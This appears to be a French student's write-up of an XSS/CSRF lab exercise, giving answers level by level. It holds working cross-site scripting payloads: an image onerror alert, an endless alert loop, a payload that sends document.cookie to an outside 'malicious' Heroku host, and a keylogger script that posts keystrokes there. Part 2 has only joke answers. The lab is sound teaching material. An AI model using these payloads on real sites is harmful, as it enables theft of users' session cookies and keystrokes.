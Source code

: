 Partie 1 -
==
Level 1
-
https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%27dzqjidqi.jpg%27%20onerror=alert(%27test%27)%3E%3C/img%3E
<br/><br/>
Level 2
-
1 -
`<img src='dqd.jpg' onerror= alert('xss') ></img>` dans title
<br/>
2 -
Le script ne fonctionne ne pas car il a été correctement géré coté serveur.
<br/>
3 -
Les données sont récupérés grâce à un appel de l'API Fetch en JavaScript.
<br/>
4 -
`<img src='zzz.jpg' onerror=while(true)alert('xss') ></img>`
<br/>
5 -
`<img src='zzz.jpg' onerror="var addr = 'https://my-malicious-ws-maisonhaute.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img>`
<br/><br/>
Level 3
-
1 - 
On peut ajouter une balise script en rajoutant des majuscules à certaine lettre de la balise tel que

<br/>
2 -
Avec la technique précédente, la balise est bien ajouter mais le code ne s'éxecute pas. Il doit y avoir une autre solution.
Pour le keylogger, il suffirait d'écrire ça dans la balise : 
<pre><code>document.addEventListener('keypress', (event) => {
	fetch('https://my-malicious-ws-maisonhaute.herokuapp.com/', {
		method: 'POST',
		headers: { 'Content-Type': 'application/json' },
		body: JSON.stringify({keypressed: String.fromCharCode( event.which )})
	})
});</code></pre>
<br/><br/>
Partie 2
==
1 - J'ai pas d'amis :p
<br/>
2 - J'ai pas d'amis :p
<br/>
3 - J'ai pas d'amis :p
